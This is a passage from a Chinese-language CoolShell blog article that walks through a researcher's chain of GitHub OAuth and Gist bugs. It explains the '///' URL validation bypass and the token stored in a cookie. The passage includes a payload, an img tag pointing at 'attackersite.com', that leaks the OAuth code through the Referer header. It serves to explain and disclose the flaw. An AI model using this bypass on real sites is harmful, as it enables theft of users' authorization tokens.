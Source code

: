 
不过，我们可以用一个很诡异的技巧：


**<img src=”///attackersite.com”>**


这个是什么玩意？这个是个URL的相对路径。但是为什么会有三个///呢？呵呵。


##### 像程序员一样的思考


这个时候，我们需要以“程序员的编程思维”来思考问题——如果你是程序员，你会怎么写校验URL的程序？你一定会想到使用正则表达式，或是用程序来匹配URL中的一些pattern。于是，


* 对于绝对路径：你会匹配两个//，后面的可能会是 user@host.com（user@是可选的），然后可能会有:<n>端口号，然后是/，后面是服务器的路径，再往后面应该是?后面带一些参数了。


* 对于相对路径：就没有绝对路径那么复杂了。就是些 .. 和 /再加上?和一些参数。


好了，如果coolshell.cn网页中的<img src=>或<a href=>中用到的相对路径是 /host.com，那么浏览器会解释成：https://coolshell.cn/host.com，如果是///host.com，那么就应该被浏览器解释成 https://coolshell.cn///host.com。


但是，Chrome和Firefox，会把///host.com当成绝对路径，因为其正确匹配了绝对路径的scheme。如果你正在用Chrome/Firefox看这篇文章 ，你可以看看下面的连接（源码如下）：


[CoolShell Test](///www.google.com)


`<a href="///www.google.com">CoolShell Test</a>`


关键是，这个Chrome/Firefox的问题被标记成了Won’t Fix，我勒个去，基本上来说，后台的程序也有可能有这样的问题，对于Perl，Python，Ruby，Node.js，PHP带的URL检查的函数库都有这样的问题。


于是，我们就可以使用这样的方式给gist注入了一个第三方站点的图片（github的服务端没有察觉到（因为我们前面说过大多数语言的URL检查库都会被 Bypass了），但是浏览器端把这个链接解释到了第三方的站点上），于是请求这个图片的http头中的refere 中包含用户当前页面的URL，也包含了用户授权的code。


到这里，黑客Egor已经拿到用户gist的权限并可以修改或查看用户私用的gist了。但是作者并没有满足，他想要的更多。


#### 第四个bug – Gist把github\_token放在了cookie里


于是Egor在用户的cookie里找到了 github\_token


![](https://coolshell.cn/wp-content/uploads/2014/02/gist_cookie.png)


但是这个token没什么用，因为授权的Scope只有gists。但是，这个token不应该放在用户端的cookie里，本身就是一个安全事故，这个东西只能放在服务端（关于Web开发中的安全事项，可以看看这篇文章《[Web开发中的你需要了解的东西](https://coolshell.cn/articles/6043.html "Web开发中需要了解的东西")》）。


于是，Egor只能另谋出路。


#### 第五个Bug – 自动给gist授权


因为gist是github自家的，Egor所以估计github想做得简单一点，当用户访问gist的时候，不会出弹出一个OAuth的页面来让用户授权，不然，用户就会很诧异，都是你们自家的东西，还要授权？所以，Egor猜测github应该是对gist做了自动授权，于是，Egor搞了这样的一个URL（注意其中的 redirect\_uri中的scope ）
